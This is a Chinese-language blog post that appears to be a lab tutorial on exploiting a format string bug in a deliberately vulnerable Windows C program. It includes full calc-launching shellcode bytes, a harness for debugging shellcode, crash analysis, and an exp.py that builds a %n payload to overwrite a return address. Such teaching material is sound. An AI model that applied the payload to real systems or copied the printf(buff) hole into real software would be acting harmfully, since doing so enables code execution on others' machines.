 ```yaml
---
layout:     keynote
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
iframe:     ""
navcolor:   "invert"
date:       2016-11-16
author:     "carter"
header-img: "https://raw.githubusercontent.com/carterMgj/carterMgj.github.io/master/img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
tags:
    - OS
    - Windows
    - pwn
---
```



### 知识点：
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

### 一. 程序代码：

```c++
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char buff[1024];
    FILE*f;
    
    f=fopen("flag.txt","r");
    fread(buff,1024,3,f);
    printf(buff); //触发漏洞
  return 0;
}
```

程序的流程是从flag.txt中读取字符串再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

### 二. 基本知识：

##### **1. 格式化字符串相关知识**

%x：依次打印出栈上数据
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/1.png)
%100x：指定数据打印时显示长度为100字节

%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

##### **2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴:

HKEY_LOCAL_MACHINE -->  SOFTWARE --> Microsoft --> Windows NT --> CurrentVersion --> AeDebug
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/4.png)
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

##### **3. windows7_32bit 弹计算器shellcode**
```python
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

##### **4.  如何调试shellcode**
```c++
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
    return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了

##### **5. 查看程序开启安全机制**

在immunity Debugger中，使用 
```python
!mona modules
```
可以查看程序各个加载模块对应开启的安全机制
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/5.png)
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


### 三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/6.png)
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/7.png)
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：

```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```

对比下图，可以验证说法正确性
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/8.png)

### 四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/9.png)
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/10.png)
所以我们的目的就是令：EAX=0x12FaF0  ECX=0x12FB48

### 五. 编写漏洞利用脚本
输入构造为：

- shellcode
- 相应多的%x
- 一些%nx来调整输出长度
- 需要被覆盖的地址

**exp.py**

```python
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
    f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/11.png)
弹出可爱的计算器
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/12.png)

## 六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 --> \x3f
```

**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
[http://bbs.pediy.com/showthread.php?t=213153](http://bbs.pediy.com/showthread.php?t=213153)


